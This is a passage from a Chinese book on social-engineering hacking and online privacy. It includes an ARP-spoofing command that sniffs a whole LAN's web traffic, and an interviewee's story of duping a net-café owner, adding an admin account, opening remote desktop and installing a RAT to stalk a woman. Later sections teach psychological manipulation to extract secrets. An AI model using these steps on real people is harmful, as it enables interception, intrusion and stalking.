显然，Google 知道我的一切，它通过我的搜索习惯知道我的兴趣爱好；它通过 Gmail、Gtalk 知道我的朋友，甚至知道我在和朋友谈论什么；它通过书签知道我喜欢去哪些网站；它通过相册能知道我长得怎样，至少不会令人失望；它能通过日历知道我每天的具体行程；它通过我对 Earth 的标注知道我家在哪里……Google 知道我的全部！如图19、图20所示。


Google 提供的优秀网络服务远远不止这些，这就是它为什么是网络巨人的原因，也是唯一让微软感到压力的对手。Web 2.0 与 Google 有何关联呢？Google 是 Web 2.0 服务的典型代表。你使用的时间一长，Google 便学会了你的习惯，确切地说，这也是隐私！Google 将你的配置都记录下来了。你打开 Gmail 会看到适合自己的广告；你可以按自己的想法在阅读器排列订阅顺序；你在 YouTube 加了好友，Google 为你建立了关系……

整个过程看上去是你在使用 Google，它也没有人为地干扰你，但聪明的 Google 已经为你记下了一切，它总是只显示你需要的东西，这是因为它了解你。

## 第四章 刨根问底挖隐私

你得保护好你的 Google 账户。另一方面是遵循“不作恶”原则，例如 FBI（联邦调查局）要求 Google 出示犯罪者的记录，Google 也可以出于保护用户隐私而拒绝。

但是，另一个重大的问题是，谷歌会泄露你的隐私！谷歌是 Google 在中国的公司，但很多人都不喜欢谷歌，因为搜索结果受中国国情的影响，人工过滤了大量关键字；而且谷歌遵循中国本地化的原则，无条件接受政府的要求，包括向政府提供 Google 用户详细资料等。

雅虎中国与谷歌基本一样，不具备隐私保护机制，根本的原因是中国还没有完整的隐私保护法规，如《公民隐私保护法》。由于国情不同，中国政府有权向所属国家企业要求出示所需的用户数据。在中国，信息管制相当严格，所以切勿传播恶意信息。不管如何，你完全可以把信用卡交给 Google 保管，但目前，谷歌还不是合适的人选。

#### 4.3.2 信任，Web 2.0 的大敌

国内 Web 2.0 的服务 90% 都是抄袭国外的形式，如在线播客模仿 YouTube，微型博客模仿 Twitter，校内网模仿 Facebook……但这很不错，都符合国人的使用习惯。当你使用这些有趣的服务一段时间后，你会发现，Web 2.0 试图还原出你现实的生活，使你在网络中更加真实。

例如，你用手机拍摄了一段有趣的视频，你特别希望与网络上的朋友分享，试图诠释亲情的快乐，于是你将视频上传到了土豆播客。网友在分享你的快乐时，他们清楚地从视频中看到你，听到你的声音；如果你是个健忘的人、爱唠叨的人，你会需要一个工具以便随时记下你现在发生的事，微型博客可以让你通过手机、邮件、RSS、软件等发表微型日志；如果你正在上学，大学的校园生活是丰富多彩的，但你想交到更多的朋友，海内网给你一个真实的校园。你只需找到你的班级，填上你真实的姓名、大学、班级、学科，再稍等一会，另一个班级的女生可能很快邀你约会……Web 2.0 光想像就感觉很美，我想你一定有使用过，如图21、图22、图23所示。


注意到图23上被我处理掉的信息了吗？那些代表了你泄露的隐私。从安全角度来说，我不推荐你信任 Web 2.0，要知道，信任是 Web 2.0 的大敌。当你信任一个陌生人加你为好友，你的个人信息一举一动就将被掌握；你上传了一张图片，陌生人将收到提醒；你加了一个好友，陌生人同样也知道……这就像一个信任链条，牵出你长长的人脉关系与事件。

美国的 Web 2.0 高速发展了起来，最主要的原因是因为诚信，这在美国日常生活中是相当重要的。缺失诚信的人，他不可能顺利地从银行贷款，企业亦不会聘用他。这与我们国内是有所差异的。哦，不要误会我说国内公民、企业缺乏诚信，而是国家缺乏相关完善的管理与监督。

因此，Web 2.0 最重要的因素是彼此信任，唯有信任时，才会享受网络生活更美好的事情，认识事业更棒的人。我们也不能排除恶意的攻击者，他们别有用心地窥视着你的一切！更重要的一点是，运营商是否会出卖你的信息！


图23

### 4.4 实名制，致命的大漏洞

如果你想问我哪种方式泄露隐私属一级严重程度，我会大声告诉你——实名制，它是继计算机隐私之后的第二大安全威胁。

网游实名制、手机实名制、网吧实名制等已悄然实行，据传，博客实名制、论坛实名制也可能会执行；厦门市在网站内容监管立法上是国内第一个禁止匿名发帖的城市，这意味着网络论坛实名制即将到来。

本小节将从信息安全角度深入讨论现在的网游、手机、网吧实名制，以及可能会发生的网络实名制所带来的人身威胁与信息安全。

#### 4.4.1 相信么，我知道你的一切

实名制是漏洞吗？不是，是人为性的漏洞。我为什么能知道你的一切呢？首先我们得理解“实名制”从何而来。

根据 CNNIC 调查数据，截至 2008 年 2 月，中国网民数量是全球第一，互联网带动了中国经济的高速发展，尤其是 Web 2.0 的服务使得网民成为信息的主人。但日益增长的信息有时会威胁到“国家安全”，不必要的敏感性文字、图片、视频可在瞬间通过舆论四处传播。

2007 年的网络可谓事件众多，引用《南方都市》提供的信息，网络实名制可能掀起“厦门 PX 项目”，由此中国网络出现了爆炸式的信息，政府面对这样的信息出现了监管困难，他们认为实名制能起到规范网络文化的作用。

> 通俗地说，实名制要求你提供个人的真实信息才能使用相关的网络服务。具体是哪些信息呢？引用《博客服务自律公约》第11条：“鼓励博客服务提供者对博客用户实行实名注册，注册信息应当包括用户真实姓名、通信地址、联系电话、邮箱等。”

## 第四章 刨根问底挖隐私

黑客入侵你的电脑还并不算侵犯了你的隐私，更危险的是，一旦你注册了实名制的博客，黑客会登录你的博客管理后台，从中找到你的住址、电话、邮箱。若你把身份证号码也泄露了，你的网银账户就可能危险；你的 QQ、邮箱可让黑客通过实名与证件找到你的密码。若你还认为不算威胁的话，恶意的攻击者会利用你的电话号码进行诈骗，并利用你的朋友进行钓鱼攻击，因为攻击者知道你的名字与个人信息。更不幸的是，攻击者在网络公开你的信息，直接导致你精神上受到伤害。如网络“铜须门事件”“虐猫事件”因遭到网友公开当事人真实信息，直接导致当事人受到不幸的精神伤害。

如果给实名制进行安全评级的话，应该属于第二位，因其包括了网吧、网游、手机等实名制。注意，新出台的火车票实名制是不能与上述实名制混为一谈的，因为火车票实名制是没有网络概念的。

#### 4.4.2 加速高智能犯罪升级

假设网络上任何交互式（论坛、博客）的服务都强制实行实名制了，那将会是怎样的后果呢？又有什么威胁呢？

从非传统安全角度来看，会引发公民人身安全、国与国之间的间谍罪犯！一旦网络运营商遭其他国家买通，公民信息数据库有助于间谍渗透政府、商业等重要部门获取情报，例如 Facebook（国外真人社会化网络）就曾发生一起商业间谍事件，原因是员工在 Facebook 上泄露了他所在企业的信息，后来有关企业禁止员工登录 Facebook。

实名制所催生的高智能犯罪将会有针对性、预谋性。例如，入侵了商业论坛，获取了论坛整个注册用户数据库，攻击者们会对数据库进行筛选、分类，筛选出某个公司整个高层管理者，利用数据中 IP 地址确定所在地与网络，通过真实姓名与电话实施信息窃取攻击。完成这样的过程很简单，国内论坛多数使用了 Discuz!、PHPWind 与动网的论坛程序，因此利用论坛漏洞，数百万公民的真实信息将面临被公开、传播的危险！信息的认可度，黑客们都了解，难道你不了解吗？你可以用搜索引擎搜索《国家计算机病毒应急中心：网络论坛多有漏洞》。

据悉，高校 BBS 已实施后台实名制，甘肃宁夏两省区也开始推行论坛版主实名制；若公安部、中宣部、最高法院、信产部等13部委顺利在中国全部城市推行网络实名制，届时，论坛版主需要提供个人真实资料（包括真实姓名、身份证号码、电话号码等）进行备案。

综合上述信息，我们需要考虑另外一个问题——第三方机构信息泄露引发的安全问题。例如，世界最大职业中介网站 Monster.com 遭到黑客大规模攻击，网站注册的数百万求职者个人信息被窃取。黑客利用恶意程序攻击其中160多万求职者的电脑，向他们勒索钱财。这就是典型的第三方机构的信息泄露，并催生了新的黑客攻击。目前，中国有40%的高校由于安全因素大量泄露学生与老师的信息，这包括学生相片、身高、体重、家庭住址、电话、父母姓名、工作单位等。

因此，我不确定执行实名制后，第三方的机构能否有能力保护系统的安全与内部人员安全，而避免用户真实信息外泄，这是一个慎重而值得思考的问题！

中国网络安全能力依旧薄弱，按照现行法规，一台服务器一个网站。考虑到用户数据的安全因素，这就需要再购买一台服务器作为数据库；这就增加了人力与维护费用。

信息安全的经验告诉我，实名制是个大问题，它超越于计算机安全之上。并且我们发现，越来越多的公民选择网络作为言论传播的第二渠道。

中国与美国不同，更多倾向于网络娱乐，然而实名制给他们带来的将是法院传票；随意评论一个人也会引发人身安全的报复性行为；不经意泄露个人财产情况，则可能遭到明确的网络抢劫……黑客不是网络唯一的威胁，更多的威胁是来自人的无知与愚昧。

智能犯罪又表现在信息经济犯罪方面，大量公民的个人信息开始来往于商业广告交易。如销售学生电脑的销售部门会购买关于学生身份的用户信息，并集中地通过短信群发器向学生们的手机批量发送销售电脑的广告。我想这样的事情读者们一定有遇到。又比如，通信运营商就将本地所有网络用户的手机信息出售给当地的公司，为此，我曾经在一天连续收到本地4个短信广告、2个彩信广告与陌生电话骚扰。

依靠实名制的智能犯罪更加隐蔽、难以侦查，会造成地下经济交易横行，威胁不断。国内部分专家认为实名制有益规范网络，这也许能起到根本性的作用，但更如同处于天亮与黑夜的黎明之间。

#### 4.4.3 实名制信息安全不容忽视！

对于实名制，我的建议是——暂缓执行！就目前来说，韩国实名制并没有取得预期效果，连欧盟对实名制也难以定论。据中国青年报社会调查中心的调查结果显示，83.7%公民反对网络实名。公民担心什么？隐私安全！不论是欧盟与中国，实名制都与宪法背道而行，如《著作权法》《计算机信息网络国际联网安全保护管理办法》。因此，实名制不能强制，而是让公民自主选择。

中国人的性格是含蓄表达思想的，一旦强制推行实名，说话的人也就少了，网络荒芜了，国际经济竞争滞后了，安全威胁增加了……不管如何，实名制可行，但现在还不是时候，需要一个周期平稳过渡。

### 4.5 你的隐私正在被谁偷窥？

隐私，有人害怕，有人喜欢，谁也不想自己的名字满天飞，谁也不想自己的秘密被人知道……因此，人们试图牢固保护自己的隐私，不断给系统升级安全补丁，将密码设置得很强壮，安装安全软件……不幸的是，隐私仍在泄露，仍在被人窃取……

那么，你的隐私正在被谁窃取呢？除了你的朋友，还有谁？或许是你的电脑。

#### 4.5.1 隐藏的黑客与木马

若你计算机不小心被植入了木马，那么，你在计算机中的一切操作都将被监控。木马背后的操纵者通过监视屏幕可以知道你在和谁聊天，你从键盘敲入的每个字符都将被记录下来！更令你感到恐怖的是，你的摄像头背后还有一双眼睛正盯着你，你的电脑开始不再听从你的命令……

远程控制软件是具有隐蔽性入侵的黑客软件，因此它被形象地称之为木马。目前的木马具备哪些功能呢？

- **文件管理**：即能操作计算机的硬盘资源，如更改文件、新增文件，将对方的文件拷贝一份。
- **屏幕监视**：即能查看对方的计算机屏幕，你操作计算机的整个过程，如看电影、编辑文档、聊天等，攻击者都能看到。
- **键盘记录**：从键盘输入的任何字符都被记录下来，哪怕你正在登录某个系统，其口令都会被暗中记录下来。
- **远程终端**：即shell的意思，操作系统的命令提示符，方便用指令操作计算机。
- **系统管理**：即计算机的硬件与软件资源的查看与管理。
- **视频监控**：打开对方的视频摄像头，远程查看摄像头捕获的画面，与公共场所的视频监控没有区别。

木马在被安装后，通常会以隐藏的方式运行，普通用户是难以察觉的。那么木马是通过什么渠道来进行传播的呢？一般来说，网站、邮件是主要的传播来源，因此建议大家不要随意打开未经验证的网址与邮件。常见的木马软件有冰河、网络神偷、上兴、PCshare、灰鸽子、黑洞等，如图24所示。


#### 4.5.2 嗅探，从数据包中挖掘你的秘密

对于嗅探（Sniff），我们可以这样简单地理解：它就像是一部电话的窃听装置，可以用来窃听双方通话的内容。而嗅探器则可以窃听计算机程序在网络上发送和接收到的数据。

计算机中的数据传输都是基于二进制形式，不同的应用程序会采用不同的协议传输数据；如浏览网页就使用了HTTP超文本传输协议。嗅探器的作用是识别相应的网络协议，并分解出数据片段。

对于网络管理员来说，嗅探器是一个不可多得的监视网络状态的工具；但在黑客的手中，便成为网络监听的攻击工具；黑客们以此来截获网络传输的系统口令。

目前的嗅探技术从传统形式发展到利用ARP缓存欺骗，并能成为内网数据传输“中间人”，即过滤内网不同端口间的数据包。这里我们演示如何利用ARP嗅探内网的数据，至于ARP攻击原理，读者朋友们可以参考《黑客手册》与网络的相关信息。

从隐私角度，我们可以利用嗅探截获目标的网页浏览记录，即80端口的HTTP协议数据包；需要用到的工具是幻影旅团编写的zxsarps.exe。使用这个工具前必须安装WinPcap驱动，安装好后，在命令提示符下运行zxsarps.exe后会看到帮助信息，如图25所示。

```bash
xzarps.exe idx 0 ip 192.168.1.2-192.168.1.254 port 80 save_h sni.log
```

解释一下上面执行的命令：

| 参数 | 说明 |
|---|---|
| idx 0 | 表示要使用索引号为0的网卡 |
| ip 192.168.1.2-192.168.1.254 | 指定要嗅探的内网IP范围 |
| port 80 | 嗅探80端口传输的数据，即HTTP协议服务的网页浏览 |
| save_h sni.log | 保存嗅探的数据到sni.log文件中 |


运行后，zXarps.exe会扫描存活的主机，嗅探的数据包越多，生成的文件就越大；你也可以指定嗅探的关键字以避免出现大量垃圾信息。过一会儿后我们再打开看看，瞧，截获192.168.1.235的IP数据包记录，如图27所示。


综合分析数据包的信息，我们很容易发现192.168.1.235的IP用户正在浏览的网页地址是http://www.xmtk.net/book_j.php?tid=1&bid=3507&cid=192，这是一个在线的读书网站，如图28所示。


我相信上述的演示已经能够说服你了，嗅探能泄露你的隐私！若不想这样糟糕的事发生，在你的身上，赶紧在路由设置好你的MAC地址吧。

#### 4.5.3 曾经的僵尸军团——间谍软件

说道间谍软件，大家一定能想到2006年国内流氓软件的风行，尤其是臭名昭著的CNNIC插件。那么间谍软件是什么呢？间谍软件是一种能够在用户不知情的情况下，在其电脑上安装后门，收集用户信息的软件。

2006年的中国互联网，可谓流氓软件的帝国，就连雅虎、百度等都无法避免利益的冲突。这些流氓软件的插件进驻计算机后，上至浏览器劫持，下至病毒式行为，让用户头疼不已。后来随着相关软件开始提供针对流氓软件的功能，基本上声名狼藉的流氓软件也慢慢消失了……

流氓软件绝迹的同时，间谍软件却冒出来了！迅雷下载软件就曾做出了明目张胆的用户信息收集行为，对用户的屏幕进行截图并传至服务器；电信旗下的星空极速软件收集用户的硬件资源信息，并针对性地弹出相关广告；腾讯QQ被质疑利用庞大的用户群，收集用户信息推出精准的广告；暴风影音对用户观影习惯进行信息收集……

一旦软件具备间谍行为后，一个任意的升级与指令即可致使大量的用户电脑成为一台僵尸电脑，受人控制的傀儡电脑。就目前而言，具有间谍软件威胁的多是网络应用软件，暂时也没有方法防止间谍软件收集用户的计算机隐私，我们所期待的是：软件开发人员不会加入恶意指令。

### 4.6 案例攻击与应用

在《典型性隐私泄露——木马屠城》的案例中，我们将能看到木马所带来的严重隐私泄露，这提醒我们，在计算机中还有第三者正窥视着我们的隐私。而《网吧实名制：中间人的黑手》案例进一步暴露出实名制的安全脆弱，没有人能保证这句话的正确性——“人与计算机是安全的”，最终，实名制的缺陷沦为攻击者的帮凶。

#### 4.6.1 典型性隐私泄露——木马屠城

远程控制木马的英文缩写为RAT，这里以国内某款RAT进行说明。这款木马具有集群控制功能，可同时打开多个摄像头；服务端数量上线无限制，功能很是强大。如图29所示，是打开了多个服务端摄像头的状况。


图30、图31为典型的木马功能——远程屏幕监视。


图30


图31

图32为截获的QQ聊天记录。


图32

图33为打开了对方的硬盘，可任意查看文件与修改内容。


图33

> **LZ01b点评**  
> 图片说话：无须我多言，读者们已经看出木马给我们造成的隐私威胁。在社会工程学的入侵中，木马不只局限于传统的黑客攻击，而是呈多样化。心怀恶意的员工可能会在财务部门的计算机中植入木马，以达到获取个人利益，甚至于商业窃密的目的。

#### 4.6.2 网吧实名制：中间人的黑手

询问你一个问题：控制网吧500台主机的服务端意味着什么？那一定是可怜的网吧不幸被人入侵了！但如果掌握了500台主机用户的身份证号码又意味着什么？答案你我不言自明——500个用户隐私信息被窃取了。看上去有点夸张，但却真实地发生着，这一帮凶便是网吧实名制。接下来，你看到的就是社会工程学师的信息搜集过程。

杨明，就读于大连理工大学，是一个爱捣蛋并喜欢恶作剧的孩子，并且，他最喜欢对女生捣乱。但这种捣乱方式相当少有，女生们不但不生气，相反有的对他颇有好感。他能滔滔不绝地向一个女生报出她身份的全部信息，如出生年月、爱好、兴趣、家庭情况……事后，他又会通过弄到的手机号向她们致以真诚的道歉。但杨明并不会就此收手，相反，他认为这事相当刺激有趣，他曾告诉我：“有一位大四的学姐，当她听我清楚地报出她的18位身份证号码后，她傻了，然后连续三天追问我怎么弄到的，哈哈哈……社会工程学相当有趣。”现在，他仍在对女生捣乱……

**杨明：**“这次我打算弄到另一个系那个女生的个人信息，我不肯定她的名字是否叫黄洁。在周末那天，我戴着鸭舌帽一直跟在她身后，她进入了一个相当有规模的网吧。”

“我猜你也跟着进去了！”我大笑。

“嗯，我到她身边时，她已经在老板那里付完费了。接着，我发现柜台有身份证号码输入器。”杨明不等我回答又说：“你知道我打算从哪里开始。不错，我要用到一个百试百灵的方法。”

“继续！”我颇有兴致地说。

**杨明：**“我设计了有趣的对白。我对网吧老板说：‘刚才我女朋友在哪号机？’网吧老板瞄了我一眼，说在49号。‘身份证号码能当作会员卡用吗？’我继续追问，网吧老板点头。”

“是这样的，我打算改天向我女朋友的卡号充值50元，但我不希望她知道。”这时老板站起来问：“嗯，有什么问题吗？”我说：“我改天才来充值，你把我女朋友身份证号码抄下来。”很快，网吧老板照办了。在查询账户信息的同时，姓名处显示“黄**”，这让我确认了她的真名。”杨明显得意地说。

“接下来呢？”我问。

**杨明：**“我冒称网吧的维护人员，哈哈，我戴着鸭舌帽她发现不了，而且她的机子离网吧收银柜台有一段距离。”

“这也行？冒称成功了？”我感到简直不可思议！

**杨明：**“当然！我对黄洁说：‘对不起，打扰一下，我是网吧技术人员，我需要帮你杀下病毒。’结果她信了，但我没去查杀病毒，而是启动了3389终端服务，并增加了一个管理员，然后在网吧又开了一台机子。”

我说：“网吧都装了还原卡吧，所以你才能如此方便增加管理员并开启3389服务。”

“是的，我在另一台机子，通过新建的管理员账户连上她的机子，利用共享命令绕过破解登录3389的限制，然后弄了个3389终端登录器填入她内网的IP地址。但使用后发觉多少有些不方便，于是又给她的机子装了一个灰鸽子，监视黄洁在电脑上的一切情况。你知道，这太刺激了！我在她的QQ上也动了手脚，使我列入了她的好友名单。”杨明越说越兴奋，“接着，我又从她的博客找到了不公开的信息。你知道吗？这个女生正在和三个男生交往，笑死我啦。”

“后来呢？”我继续问。

**杨明：**“还能咋的？继续我的恶搞原则。后来从她的班级约她出来，我滔滔不绝地向那个女生抖出了她的个人信息等隐私，然后扬长而去。不用想，那女生一定恨死我了，哈哈。”

“我觉得你不应该乱动女生们的隐私，通常后果很严重！”我告诫杨明。

“我不确定，当我无聊时，这是我的乐趣。”杨明仍然顽固地说，对此，我无可奈何。

看完了我和杨明的交谈，黑客们是不是也能想起有过相似的事件发生？就身份证号获取来说，大多数的人随便编出一个理由，网吧老板都会毫无防范地将信息泄露给你。像黄洁一样，很多的人在网吧上网时都不会对“网管技术员”产生抗拒态度，而是积极地配合。如此，你会害怕去网吧上网么？那样的话，小心你的隐私是否在泄露。

> **Lizaib点评：**  
> 实名制所带来的安全威胁不止于此，我曾和美国网友losztv讨论过这个问题。他说，父母在他初中时就告诉他：不要信任网友，尤其是不能告诉对方自己的姓名以及住址，那样的话会威胁到你的安全。losztv的回答让我沉思……从小到大，家人都告诉我不能随便透露自己真实的信息，但现在，似乎不太可能——因为实名制的出现。  
> 现阶段，我们发现2005年开始的手机实名制也不了了之。它的问题很多，身份证号码的编码规则很多人都知道，运营商也不想因此失掉更多的预付费用户，在一定程度上，也无益于司法追查犯罪……相反，它给公众隐私带来了麻烦。网游实名制也是如此，游戏运营商可不想因此失去了自己的金库，使得游戏防沉迷系统成为空气；网吧实名制也是如此，在利益的边缘上，这一切沦为笑谈。从中，我们能找出最根本的问题，那就是没有相关的法律法规、道德伦理的监管；实名制不是法规，而是一项工具，工具也不一定管用。

## 第五章 窥探你心中的秘密

- 善用人性弱点的心理学攻击
- 开始入门另类的攻击
- 神经语言程序学的“入侵”
- 九型人格中的秘密
- 长驱直入攻击信息拥有者


### 5.1 善用人性弱点的心理学攻击

社会工程学最直接的称呼是社交工程，攻击者可以在利用黑客经验的基础上，组织大量的专业知识对信息的拥有者进行说服，最终达到信息窃取的目的。

然而我们发现，心理学在人与人交往中扮演着重要角色，在一定的程度上，它能使我们在面对不同性格的信息拥有者时，采取不同的信息获取策略。

心理学为什么能融入计算机的入侵部分？我想，社会工程学攻击建立在人的概念上；人为的漏洞比计算机更容易入侵，这便是心理学的奇妙之处，它更容易撬开人的敏感防线，轻而易举利用信任渗透大型的系统。

整个国家，乃至全球的人类，无论商业、军事、政治都建立于人的最初形态——影响，而影响就是心理学导致的。心理学正是用来研究这种高层文明的，从侧面也反映出社会工程学攻击正在成为非传统信息安全的重要威胁。

心理学攻击是一种无法抗拒的力量，我们每个人都有心理弱点，你不要急于反对我的话。我想问问你几个简单的问题：你看到身患癌症的孩子是否会同情他们？你好不好奇我怎样会知道你的秘密？你会不会珍惜你最信任的朋友？……问题的答案我想你不会否认，毕竟你不是精神麻木的人，每个人都具备喜怒哀乐，以及不同的人生观和价值取向。社会工程学师要做的是，找出你的心理弱点，并加以利用。那么，他们是如何做到的呢？

#### 5.1.1 “入侵你的心”

在美国的一部电视剧中，有这样的一段情节，主人公在一次莫名的经历中，拥有了超人的听觉感知能力，甚至他能听到人们对某件事的心理活动；他能在自己妻子大发牢骚前将她心里的话原本复述出来……但这样的能力让他的生活过得非常糟糕，人们脑海中的憎恨、抱怨、猜疑总让他听到，而当主人公将这些想法告诉当事人，人们惊疑不已，认为他是一个危险的人物。

在上述的故事中，主人公对于我们真的很危险吗？是因为主人公拥有超人的感知能力，还是因为人们担心自己的想法被人知道？显然，后者的答案才有说服性，被他人了解到自己心中的想法，谁都不愿意，毕竟谁也不想自己的思维受他人左右。因此，人们最害怕的不是电影里恐怖的声音效果，也不是腐烂变质充满恶臭的物质，那些只是感官系统引发在心理上的害怕，而真正让人感觉到威胁的则是心中的秘密、想法被人窥知。

那么，使用心理学知识能知道对方心中所想的事吗？不能！心理学只是社会工程学中辅助入侵的工具，工具的价值在于我们如何运用，并由此判断对方的性格及行为生活方式，甚至个人经历，并根据综合收集到的信息制定出一套策略。比如对方偏好哪一种感觉，是颜色、是声音还是触摸？依据NLP心理学，我们可判断出对方的主要感官系统，如果偏好听觉，那么我们收集信息时可通过拨打电话进行社交工程入侵。

心理学如何具体应用于社会工程学入侵呢？我们可以先进行信息内容鉴析，通过获取到的对方的档案文件、即时记录、邮件、资料等，依据其写作习惯、信息内容作心理学表层分析，以此获取目标对人际关系的态度与看法，深入分析出对方的信念系统；接着是行为鉴析，通俗理解就是目标在日常生活上的状态、习惯，如在工作中对待客户的习惯；娱乐时间通常忙于怎样的活动等，这都可用心理学分析其性格上的特点；最后，在我们索取口令过程中的策略，都是建立在对方的心理学认知上。

现在，让我们在大脑中构造一个想象，心理学是一种意识性的物质，它像一团白色的雾气，在社会工程学师的魔法棒引导下，偷偷潜入目标的大脑中心，控制住数百万条的脑神经，完成一次成功的、逻辑上的“入侵”。

#### 5.1.2 不要轻易给予信任

我大声命令你：“读者，请再去买一本《黑客社会工程学攻击》”！你会有怎样的反应？是怒气还是鄙视？或许你会理直气壮地反问：我凭什么听你的！是的，你不会听我的，很简单，我们彼此都了解不深，都是陌生人，我也还没施展策略让你信任我。

### 心理学应用的另一个目的——获取信任

这很重要，信任是社会工程学入侵过程中的关键点。当淘宝网客服小二不信任你，他会拒绝替你查询某个用户的交易信息；企业内部网络管理员不信任你是销售部门的员工，他会拒绝为你提供内部网络接口；守法的公民不相信你是本地所属的派出所警员，他们会拒绝你随意翻看户口本记录。是的，人与人之间的信任是绝妙的通行证，这是防火墙与安全制度无法防御的危机。

你可能会质疑，社会工程学的攻击注重时效性，心理学策略不可能短期快速建立信任关系。不要担心，好消息是，我们通过掌握心理学应用的特别技巧便能达成短期的信任关系。这种技巧你也可以运用到社交场合，配合信息搜索技术，你可以建立所需的人脉资源，认识对于某些事物感兴趣的专业人员。

事实上，拥有相当棒的人脉资源会使你在处理任何事情时更有效率。比如，当你不知道浓酸或没有专业的化工实验器具时，你的化学技工朋友会乐于给你提供技术支持。

一般有效的心理策略都是在部分所知信息的前提配合下达成的，它不能作为独立的部分。在时间、地点、环境下的影响，应该综合已知的信息，采取相应的策略。

特别提醒的是，当你试图选取本章某个心理学策略进行测试，你得考虑对于目标是否正好适合。因年龄、职业、兴趣的不同，你运用的交谈语气、措辞也就有所不同；但这并不是太大的问题，我建议以身边的朋友来实践，以达到熟能生巧的程度。

最后，作为前人，对你的告诫是：不要轻易把信任交给他人，这无异于将家门的钥匙送给了他们——包括那些高明的社会工程学师。

### 第2节 另类心理学的威胁

心理学会不会太复杂了？会不会像法律学枯燥无味？比文言文更加生涩难懂？……

我来打消你上述的疑问吧！心理学那是相当地容易！你只需把研究黑客的兴趣转移到研究人的行为上便可！你无需背下大量的规条，也不必用笔马上记下关键点，尽量当成是在轻松地阅读一本故事书，这很容易消化，你会很快发现心理学的另类攻击是多么有趣。

在这一小节中，你得了解典型的心理学知识，即人的信念系统、需求层次、五个阶段。

#### 5.2.1 认识信念系统

我们每个人在对待生活上发生的每一件事，包括看法以及如何处理它们，所依据的是自我信念系统。信念系统是由信念、价值、规条组成的，它时刻影响着我们对某件事的态度。比如，你不会随便出卖公司的机密信息，这是因为自身的价值观不允许；你不会用汽油对付怨恨的公司，这是信念系统不允许你失去理智而引发一场火灾。当然，大部分人的信念系统肯定是不同的，人们会因为事物的影响而改变自身的价值观。人是可变的，也是容易受操纵的。

接着，让我们理解维持人类生存的信念系统的组成物，即信念、价值、规条！这能使你日后对一个人进行深层分析。

### 信念

简单地说，信念是“事情是怎样的”，是一个人自己对世界的认知，用来解释世界的种种逻辑关系。比如，助人为乐是正确的，杀人放火是危险的。

由此，人们的信念是数之不尽的，这便形成了对世界上诸多事情的看法。倘若人失去了信念，便对事物失去了分辨性，比如，认为大米不能养活人，也便无法生存。人无时不刻不能离开信念，它使我们成长。那么，信念是如何形成的呢？

- 自己的亲身经验。比如，被尖锐的针刺伤后，而知道针能伤人。
- 观察他人的经验。比如，在公共场所看到小偷被抓，知道偷东西是犯法的。
- 受信任的人灌输。比如，父母常告诫我们提防陌生人，因而我们对陌生人持抗拒态度。
- 自我思考的总结。比如，女孩子不喜欢和我玩，思考后，认为是自己衣着不整洁导致的。

从信念的形成，我们能看到另一个问题，信念容易被误导！还能产生局限性信念。比如，我们可以给目标制造不良经验，告诉对方泄露企业机密给竞争对手的好处是发展本省的经济，并鼓动他身边信任的人去影响他，或是让他看到这一行为会给自身带来的好处，产生错误的信念。

### 价值

价值，是指事情的意义，这件事做了后能否给我带来好处？那我会得到什么呢？简而言之，这件事的意义对我来说可不可取，值与不值。

生活中，价值是做与不做任何事的理由。比如，我们看喜剧电影而获取欢笑的感觉，是接受了正面的价值；拒绝与性格暴躁的人来往，是为了逃避负面的价值。附和认可与改变对方心中的价值观，能推动这个人去做某一件事，置换角度去看一件事。

比如，你一直信仰友情至上，但信任的朋友有一天却忽然背叛你，这时你不再对结交新朋友感兴趣，这是因为自己将结交朋友与受到伤害联系到一起，从而形成负面价值。尽管我们做的每一件事都由自我价值决定，事实上，还在于意识与潜意识有不同的价值排列，潜意识是内心最终认可的价值。

例如，一个人拼命地没日没夜研究黑客技术，他认为这是在提升自己的技术，而当他的技术达到一定程度后，但他并不开心，为什么？他的潜意识价值是为了得到朋友的认可，也就是说，意识上的价值是提升自己的黑客技术，而潜意识的价值是为了获得人们的认可，证明自己的存在与影响力。

意识与潜意识不同的价值排列，常使很多人知道怎样去做才对，但总下不了决心去做，知道什么不应该做，但会偷偷地去做。价值不是一成不变的，它随环境、思想、情绪而不断地改变，并可以人为地创造、增大和转移。

- **创造价值**：将枯燥的笔录工作划分几个部分，在相同的时间尝试打破前面的笔录速度；和朋友比赛，谁先从百万行程序代码找出漏洞，谁就在对方的博客挂上黑旗。
- **增大价值**：怎样在每天重复的入侵渗透测试中学习到更好的经验；我能在某个程序员身上找出除了编写程序的能力之外更多的优点。
- **转移价值**：不再为了取得优秀的成绩获取老师的赞扬，而是为了提升自己的能力而学习；不以赚钱为目的成为报刊记者，而是转移为向百姓报道社会真相新闻的价值。

> **知识点**  
> 规条，是事情的安排方式，也就是做法。规条是为了价值与信念而服务，它涉及人、事、物组织安排和活动。

当一个做法无效时，人们必须在坚持价值与信念，或者坚持规条这两者之间做出一个选择。很明显，规条（做法）是为了取得价值，实现信念。当规条无效时，我们应坚持价值与信念，并改变规条（做法）。但现实中，却是相反的效果：虽然看到做法无效，但还是坚持规条，这会离真正的价值与信念越来越远。比如，母亲们总因为孩子不听话而苦恼，她们最初采取打骂的方法让孩子听从指令，当注意到孩子已产生了逆反的心理，却不改变做法，仍然坚持原来的方式。

我们可以这样来形象化地理解规条：比如，你认为考上大学（价值）才能实现富足的人生（信念），为此而采取艰辛的学习来提高成绩（规条），但有时候这样只会起到反面的效果。尽管这样，你仍然坚持这样的做法，这便导致你产生错误的规条。

产生错误规条的原因是人们意识上的认识，即能意识到学习、考大学，并能口头上谈论，但实际上，人们忽略了潜意识中的信念与价值。当我们与这样的人讨论问题时，他们总认为无效规条是“对的”，大脑的另一部分开始罢工，以至于迷茫地对问题进行选择分析，缺少对问题的解决和进行风险评估等。说服他们最好的方法就只能是询问是否希望看到有效的结果。

现在大家真正地理解信念系统了吗？不要紧，请参考这个比喻：信念就像一幢建筑在浅水处的房屋，由一根一根柱子支撑着。房屋是信念，而柱子就是价值。价值是支撑信念的东西，改变价值，信念就能改变。那么我们如何知道一个人的信念系统呢？很简单，看这个人的态度，态度是信念系统的外壳。

综上所述，信念系统是所有意念行为的思想基础。它操纵着我们人生里的每一件事，是决定做与不做任何事的基本原因，是对事物作出判断的基本依据；使得我们大脑能自动思考和行动，自动接受潜意识的控制。

一个人的态度会在情绪上反应出来，我们甚至可以从他的语言角度来进行辨明。如在对某一个决定使用强调语言“应该”“必须”等，从中能看出其价值观。

你一定有过这样的经验，两个人之间起的冲突，往往是双方信念系统的价值观冲突。信念系统是人类行为的主导，当我们试图说服一个人，首先得弄明白这个人的信念系统。

#### 5.2.2 “需求层次”找出你的需要

